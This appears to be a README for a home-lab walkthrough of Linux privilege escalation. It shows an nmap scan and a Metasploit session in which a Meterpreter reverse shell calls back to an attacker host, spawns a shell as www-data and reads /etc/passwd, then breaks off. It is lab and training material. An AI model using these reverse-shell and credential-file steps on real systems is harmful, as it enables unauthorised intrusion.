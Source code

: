 That is how to elevate your privilegs on a Linux system through the use of kernel exploit.

# Home Lab
Target:
```
192.168.248.128
```

[OpenSSH Server](https://ubuntu.com/server/docs/service-openssh)

[Install and Configure Apache](https://ubuntu.com/tutorials/install-and-configure-apache#1-overview)

[How to copy files from one machine to another using ssh](https://unix.stackexchange.com/questions/106480/how-to-copy-files-from-one-machine-to-another-using-ssh)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

[Logining into www-data](https://ubuntuforums.org/showthread.php?t=2280551)

```
┌──(root㉿kali)-[~]
└─# nmap -sV 192.168.248.131
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-27 04:27 EDT
Nmap scan report for 192.168.248.131
Host is up (0.000053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:94:C0:38 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.52 seconds

```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
[*] Sending stage (3020772 bytes) to 192.168.248.131
[*] Meterpreter session 2 opened (192.168.248.148:1234 -> 192.168.248.131:47892) at 2022-10-27 04:38:38 -0400

meterpreter > sysinfo
Computer     : ubuntu-14.04.6
OS           : Ubuntu 14.04 (Linux 4.4.0-142-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > shell
Process 3389 created.
Channel 1 created.
/bin/bash -i
www-data@ubuntu-14:/opt/exploits$ whoami
whoami
www-data
www-data@ubuntu-14:/opt/exploits$ groups www-data
groups www-data
www-data : www-data
www-data@ubuntu-14:/opt/exploits$ cat /etc/passwd
cat /etc/passwd
```